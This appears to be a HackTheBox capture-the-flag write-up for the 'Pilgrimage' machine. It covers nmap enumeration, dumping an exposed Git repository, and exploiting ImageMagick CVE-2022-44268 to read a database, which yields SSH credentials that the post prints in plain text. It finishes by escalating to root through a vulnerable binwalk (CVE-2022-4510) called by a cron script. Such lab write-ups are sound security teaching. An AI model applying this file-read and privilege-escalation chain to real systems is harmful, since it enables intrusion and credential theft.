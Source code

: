 ```yaml
---
title: HackTheBox - Pilgrimage
description: Pilgrimage is an easy-difficulty Linux machine featuring a web application with an exposed `Git` repository. Analysing the underlying filesystem and source code reveals the use of a vulnerable version of `ImageMagick`, which can be used to read arbitrary files on the target by embedding a malicious `tEXT` chunk into a PNG image. The vulnerability is leveraged to obtain a `SQLite` database file containing a plaintext password that can be used to SSH into the machine. Enumeration of the running processes reveals a `Bash` script executed by `root` that calls a vulnerable version of the `Binwalk` binary. By creating another malicious PNG, `CVE-2022-4510` is leveraged to obtain Remote Code Execution (RCE) as `root`. 
date: 2023-07-24 18:40:00 +0530
categories: [HackTheBox]
tags: [hackthebox, Easy]
image:
  path: /assets/img/headers/htb_pilgrimage.webp
---
```




## Enumeration

Spawning the machine and adding the IP to `/etc/hosts` with hostname as `pilgrimage.htb` .

### Nmap

```console
$ sudo nmap pilgrimage.htb
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-23 11:07 EDT
Nmap scan report for pilgrimage.htb (10.10.11.219)
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 19.64 seconds

$ sudo nmap -sV -sC -p22,80 pilgrimage.htb
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-23 11:07 EDT
Nmap scan report for pilgrimage.htb (10.10.11.219)
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Pilgrimage - Shrink Your Images
|_http-server-header: nginx/1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.93 seconds
```

From the Nmap scan, we can see that `.git` path exists, lets use git-dumper to dump the whole repo and look for juicy files.

`$ ./git-dumper.py http://pilgrimage.htb/.git repo_name`

We have the whole repo on our storage. Some points to note are.
- After looking at `index.html` file, we can know that the web-app location on server is `/var/www/pilgrimage.htb/tmp` and there is sqlite db - `/var/db/pilgrimage`.
- The repo contains a file called **magick**. we can find out more in the terminal below.
  ```console
  $ ./magick -version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
  ```
- Using Searchsploit, We see that **ImageMagick 7.1.0-49** is vulnerable to **Arbitrary File Read** exploit.

```console
$ searchsploit magick 7.1.0
------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                            |  Path
------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
ImageMagick 7.1.0-49 - Arbitrary File Read                                                                                                | multiple/local/51261.txt
ImageMagick 7.1.0-49 - DoS                                                                                                                | php/dos/51256.txt
------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results


$ searchsploit -m 51261.txt

  Exploit: ImageMagick 7.1.0-49 - Arbitrary File Read
      URL: https://www.exploit-db.com/exploits/51261
     Path: /usr/share/exploitdb/exploits/multiple/local/51261.txt
    Codes: CVE-2022-44268
 Verified: False
File Type: ASCII text
Copied to: /home/kali/Downloads/51261.txt

$ cat 51261.txt
# Exploit Title: ImageMagick  7.1.0-49 - Arbitrary File Read
# Google Dork: N/A
# Date: 06/02/2023
# Exploit Author: Cristian 'void' Giustini
# Vendor Homepage: https://imagemagick.org/
# Software Link: https://imagemagick.org/
# Version: <= 7.1.0-49
# Tested on: 7.1.0-49 and 6.9.11-60
# CVE : CVE-2022-44268 (CVE Owner: Metabase Q Team
https://www.metabaseq.com/imagemagick-zero-days/)
# Exploit pre-requirements: Rust


# PoC : https://github.com/voidz0r/CVE-2022-44268
```

## Foothold


![pilgrimage](/assets/img/htb_pilgrimage/Pilgrimage-01.png)
> browsing to http://pilgrimage.htb/, we see upload functionality of webapp
{: .prompt-info }

Let us try to read `/var/db/pilgrimage` file using the exploit. Since the exploit is written in rust, we may need to install `cargo`.

```console
$ sudo apt install cargo
$ cargo run "/var/db/pilgrimage"
```
This will create exploit `image.png`. We will upload this file to web app to exploit the vuln. On clicking the shrink button,we will get the file output as `png`, we need to download this and extract the info.

```console
$ identify -versbose filename.png
```

From this text, we will get a ***hex*** string, which we need to convert to ascii to read the exfiltrated text. We can use `Cyberchef` to do this.

![pilgrimage](/assets/img/htb_pilgrimage/Pilgrimage-03.png)

From this conversion we get the user and password.

|  emily  |   abigchonkyboi123  |

Using these credentials, we can login to pilgrimag.htb using `ssh`. and read user.txt at `/home/emily/user.txt`.

After running `linpeas.sh` as `emily`, we see `/usr/sbin/malwarescan.sh`. We can see that this script is running frequently, with `ps aux`.

![pilgrimage](/assets/img/htb_pilgrimage/Pilgrimage-05.png)

![pilgrimage](/assets/img/htb_pilgrimage/Pilgrimage-04.png)

So, malwarescan.sh runs a vulnerable binwalk version. Below is the exploit-db page explaining the vulnerability.

[exploits/51249](https://www.exploit-db.com/exploits/51249)

Basically, we need to generate a **png** image (using above exploitation script) and place it in `/var/www/pilgrimage.htb/shrunk`, then the `malwarescan.sh` script executes the exploit (binwalk) and gets us **root** shell. using this read the **root.txt**.